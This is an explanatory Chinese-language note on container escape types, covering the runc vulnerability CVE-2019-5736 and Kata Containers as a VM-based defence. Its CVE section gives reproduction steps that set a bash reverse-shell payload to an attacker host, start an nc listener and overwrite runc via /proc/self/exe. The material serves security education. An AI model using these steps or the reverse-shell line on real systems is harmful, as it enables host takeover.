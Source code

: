 ## 容器逃逸类型

容器逃逸指的是攻击者利用容器中的漏洞或配置错误，突破容器的隔离机制，从而访问宿主机或其他容器内的资源。

- （系统层）内核漏洞：指由于内核漏洞导致的容器逃逸问题，例如：如果宿主机的Linux内核存在安全漏洞，攻击者可能利用这些漏洞从容器内部执行恶意代码，从而获取宿主机上的权限；
- （服务层）软件设计不当：指由于运行时漏洞导致的容器逃逸问题，Docker是一个容器化平台，它包含了docker软件本身以及runc和containerd等核心组件，这些组件本身也可能存在漏洞，攻击者可以利用这些漏洞来进行容器逃逸。
- （用户层）特权模式与配置不当：指由于容器实例使用的危险配置、危险挂载导致的容器逃逸，例如：容器使用了不安全的卷挂载，或者容器以过高的权限运行，都可能被攻击者利用来实现容器逃逸；

### 服务层容器逃逸案例（CVE-2019-5736）

2019年2月11日，runC的维护团队报告了一个新发现的漏洞，SUSE Linux GmbH高级软件工程师Aleksa Sarai公布了影响Docker, containerd, Podman, CRI-O等默认运行时容器runc的严重漏洞CVE-2019-5736。漏洞会对IT运行环境带来威胁，漏洞利用会触发容器逃逸、影响整个容器主机的安全，最终导致运行在该主机上的其他容器被入侵。漏洞影响AWS, Google Cloud等主流云平台。

- 影响版本：docker version <= 18.09.2, runc <= 1.0-rc6
- 漏洞链接：https://github.com/Frichetten/CVE-2019-5736-PoC
- 复现方式：将Poc代码中main.go 文件中payload变量定义为`var payload="#!/bin/bash \n bash -i >& /dev/tcp/<ip>/<port> 0>&1"`(其中<ip>指攻击者机器的ip)，之后在受害者机器上编译执行main.go，然后在攻击者机器上开启nc监听，监听<port>端口，再次在受害者机器上进入或启动容器时，攻击者机器就可以拿到受害者机器的shell控制权；
- 漏洞原理：攻击者可以通过修改容器内部某个可执行文件的方式，获取到宿主机上 runc 可执行文件的文件句柄（file descriptor）。随后，攻击者可以利用该句柄对原始的 runc 文件进行覆盖操作，将其替换为一个受控的恶意文件；

POC代码解析：

1. `/bin/sh` -> `#!/proc/self/exe` 

    将shell变成指向当前进程可执行文件的链接，让host的runc进程执行自身

2. runc -> `#!/bin/bash \n bash -i >& /dev/tcp/<ip>/<port> 0>&1`

    将runc覆盖为反弹shell

3. 下次执行docker run/exec 时，就会使用runc二进制文件，执行攻击者的payload

## Kata Containers

Kata Containers项目最初由Hyper.sh的runV项目与Intel的Clear Container合并而来，并于2017年开源。它的核心思想是，为每一个容器运行一个独立虚拟机，从而避免其与宿主机共享内核。即使攻击者在容器内部成功利用了内核漏洞攻破内核，他依然被限制在虚拟机内部，无法逃逸到宿主机上。
![](images/kata.png)
和Docker一样，Kata Container1.0也包含containerd、containerd-shim，还额外包含的组件如下：
- kata-shim：kata容器的容器进程运行在虚拟机中，虚拟机和host之间是隔离的，container-shim无法监控到kata容器进程的生命状态，所以使用kata-shim进行中转；
- kata-runtime：负责调用底层虚拟化技术（如qemu）来启动虚拟机；
- kata-proxy：转发来自kata runtime的请求到VM的kata-agent；
- kata-agent：负责实际的容器生命周期管理和资源配置（创建新容器，调整资源配置）;
